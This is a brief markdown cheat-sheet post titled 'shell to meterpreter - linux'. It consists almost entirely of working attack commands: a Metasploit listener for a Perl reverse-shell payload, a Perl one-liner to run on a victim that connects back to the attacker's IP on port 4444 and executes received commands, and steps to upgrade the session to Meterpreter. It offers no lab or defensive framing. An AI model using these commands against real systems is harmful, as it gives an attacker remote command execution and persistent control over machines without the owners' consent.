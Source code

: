 ```yaml
---
layout: post
title:  "shell to meterpreter - linux"
date:   2022-01-01
categories: web
---
```



## listener

```
msfconsole -x "use exploit/multi/handler;set PAYLOAD cmd/unix/reverse_perl;set LHOST tun0;set LPORT 4444;exploit"
```

## victim

```bash
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"<my ip>:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```

## elevate meterpreter shell

```bash
background

use post/multi/manage/shell_to_meterpreter
set SESSION 1
exploit
```